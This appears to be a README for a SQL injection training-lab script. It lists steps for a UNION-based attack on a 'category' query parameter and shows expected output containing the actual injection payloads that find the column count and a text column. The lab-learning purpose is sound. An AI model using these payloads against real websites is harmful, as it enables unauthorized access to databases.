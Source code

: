 # Hack Steps

1. Inject payload into 'category' query parameter to determine the number of columns.
2. Add one additional null column at a time.
3. Repeat this process, increasing the number of columns until you receive a valid response.
4. After determining the number of columns, replace each column with the desired text one at a time.
5. Repeat this process until you receive a valid response.

# Run Script

1. Change the URL of the lab
2. Start script

```
~$ python sql_injection_union_attack_finding_a_column_containing_text.py
```

# Expected Output

```
[#] Injection parameter: category
[#] Desired text: tJRvKS
[*] Trying payload: ' UNION SELECT null-- -
[*] Trying payload: ' UNION SELECT null, null-- -
[*] Trying payload: ' UNION SELECT null, null, null-- -
[#] Number of columns: 3
[*] Trying payload: ' UNION SELECT 'tJRvKS', null, null-- -
[*] Trying payload: ' UNION SELECT null, 'tJRvKS', null-- -
[#] the column containing text: 2
[#] Check your browser, it should be marked now as solved
```

